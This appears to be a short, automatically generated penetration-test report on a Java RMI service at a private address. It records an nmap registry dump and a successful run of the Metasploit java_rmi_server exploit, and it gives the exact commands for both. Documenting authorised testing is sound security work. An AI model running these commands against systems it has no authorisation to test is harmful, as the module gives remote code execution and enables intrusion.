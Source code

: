 # Java RMI Exploit Report for 10.1.3.2:1099

Generated: 2025-09-03 22:45:12


## RMI Registry Dump

- **Target**: 10.1.3.2:1099

- **Details**: RMI registry dump successful

- **PoC**: `nmap -p 1099 --script rmi-dumpregistry 10.1.3.2`


## Metasploit exploit/multi/misc/java_rmi_server

- **Target**: 10.1.3.2:1099

- **Details**: Successful exploitation with exploit/multi/misc/java_rmi_server

- **PoC**: `msfconsole -q -x 'use exploit/multi/misc/java_rmi_server; set RHOSTS 10.1.3.2; set RPORT 1099; run'`


